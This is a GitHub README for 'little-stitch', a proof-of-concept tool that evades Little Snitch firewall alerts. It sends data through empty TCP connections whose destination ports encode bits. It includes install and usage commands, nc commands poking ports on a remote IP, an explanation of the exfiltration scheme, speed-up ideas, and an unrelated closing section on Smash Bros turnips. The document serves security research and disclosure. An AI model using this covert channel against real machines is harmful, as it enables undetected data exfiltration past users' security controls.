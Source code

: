 # little-stitch
Send and receive bypassing Little Snitch alerting.

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Install

```
tag=$(curl -s https://api.github.com/repos/RhinoSecurityLabs/little-stitch/releases/latest|jq -r '.tag_name'|tr -d 'v')
curl -L "https://github.com/RhinoSecurityLabs/little-stitch/releases/download/v${tag}/little-stitch_${tag}_$(uname -s)_$(uname -m).tar.gz" \
    | tar -xzf - -C /usr/local/bin/ little-stitch
```

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Bypassing Little Snitch Firewall with Empty TCP Packets

Little Snitch does not trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons, Little Snitch alerting seems to be inconsistent when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which is more reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data, we want to encode our data as attributes of the TCP/IP connection. These attributes should
be modifiable by an underprivileged user, and be readable by the server without affecting routing.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

This unoptimized proof of concept is very low bandwidth, based on observations it appears to be able to upload at about 16 bit/s
and download at about 8 bit/s. Currently, the majority of time is spent waiting on TCP connections to close and because everything is run
serialized this ends up slowing things down quite a bit. Listed below are a few possible optimizations along with the estimated
speed up (these are very rough, and may not even work as expected, so take this with a grain of salt).

* Encoding data in the source port.
  * Estimated speed up: 2x
* Use NFQUEUE on the server to read Syn packets sent by the client without opening a full TCP connection.
  * Estimated speed up: 5x, maybe more, at the cost of reliable transfers. This is because each connection needs to
    go through the full TCP handshake and teardown process. This results in 5 packets per connection (SYN, SYN/ACK, ACK, client
    FIN/ACK, server FIN/ACK).
* Parallelizing data transfer and compression.
  * Estimated speed up: ?
* Use TCP OOB flag for data.
  * Estimated speed up: 1 bit per connection.
* Use TCP Urgent flag for data.
  * Estimated speed up: 1 bit per connection.


## What's with the Little Stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is one of the
two rarest turnips in the game with only a 1.711% chance of appearing with each pull. What puts it apart from the other turnips isn't its
rarety however, it's the punch it packs at 34% damage, making it the most powerful item that is legal in tournament play.

Turnip Tip: after you throw it and it hits your opponent try recatching it by jumping and pressing Z when the turnip bounces back and passes
through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Probability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |
